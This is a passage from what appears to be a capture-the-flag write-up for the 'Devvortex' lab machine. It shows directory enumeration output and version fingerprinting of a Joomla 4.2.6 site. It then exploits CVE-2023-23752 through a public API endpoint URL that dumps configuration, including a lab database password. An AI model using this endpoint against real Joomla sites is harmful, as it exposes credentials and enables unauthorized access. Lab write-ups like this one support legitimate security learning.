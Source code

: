 ```
/language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
/layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
/libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
/media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
/modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]
/plugins              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/plugins/]
/robots.txt           (Status: 200) [Size: 764]
/templates            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/templates/]
/tmp                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/tmp/]
Progress: 4723 / 4724 (99.98%)
===============================================================
Finished
===============================================================

```

Accessing `http://dev.devvortex.htb/administrator/manifests/files/joomla.xml` returns information about the Joomla installation and the version which is installed. Here version `4.2.6` is used.

```
files_joomla Joomla! Project admin@joomla.org www.joomla.org (C) 2019 Open Source Matters, Inc. GNU General Public License version 2 or later; see LICENSE.txt 4.2.6 2022-12 FILES_JOOMLA_XML_DESCRIPTION administrator/components/com_admin/script.php administrator/components/com_admin/sql/updates/mysql administrator/components/com_admin/sql/updates/postgresql administrator api cache cli components images includes language layouts libraries media modules plugins templates tmp htaccess.txt web.config.txt LICENSE.txt README.txt index.php https://update.joomla.org/core/list.xml
```

This version of Joomla is vulnerable to unauthorized access to webservice endpoints as described in [CVE-2023-23752][CVE-2023-23752]. This vulnerability allows accessing an endpoint displaying configuration information, including database connection details under `http://dev.devvortex.htb/api/index.php/v1/config/application?public=true`. Here credentials for the lewis user are displayed, which can be used to log into the Joomla administrator interface.

```
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```


[CVE-2023-23752]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23752
[CVE-2023-1326]: https://nvd.nist.gov/vuln/detail/CVE-2023-1326